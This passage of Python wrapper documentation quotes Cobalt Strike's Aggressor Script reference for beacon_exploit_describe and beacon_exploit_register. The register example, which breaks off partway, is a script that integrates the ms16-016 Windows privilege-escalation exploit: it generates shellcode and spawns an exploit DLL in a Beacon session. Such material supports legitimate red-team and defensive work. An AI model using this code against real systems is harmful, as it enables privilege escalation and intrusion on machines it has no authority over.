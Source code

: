 Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Describe a Beacon exploit
    Returns
    A string description of the Beacon exploit
    Arguments
    $1 - the exploit
    Example
    println(beacon_exploit_describe("ms14-058"));

    See Also
    &beacon_exploit_register, &beacon_exploits, &belevate

## beacon_exploit_register
```python
beacon_exploit_register(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Register a Beacon privilege escalation exploit with Cobalt Strike
    Arguments
    $1 - the exploit short name
    $2 - a description of the exploit
    $3 - the function that implements the exploit ($1 is the Beacon ID, $2 is the listener)
    Example
    # Integrate windows/local/ms16_016_webdav from Metasploit
    # https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_016_webdav.rb

    sub ms16_016_exploit {
        # check if we're on an x64 system and error out.
        if (-is64 $1) {
            berror($1, "ms16-016 exploit is x86 only");
            return;
        }

        # acknowledge this command
        btask($1, "Task Beacon to run " . listener_describe($2) . " via ms16-016");

        # generate our shellcode
        $stager = shellcode($2, false, "x86");

        # spawn a Beacon post-ex job with the exploit DLL
        bdllspawn!($1, script_resource("modules/cve-2016-0051.x86.dll"), $stager, "ms16-016", 5000);
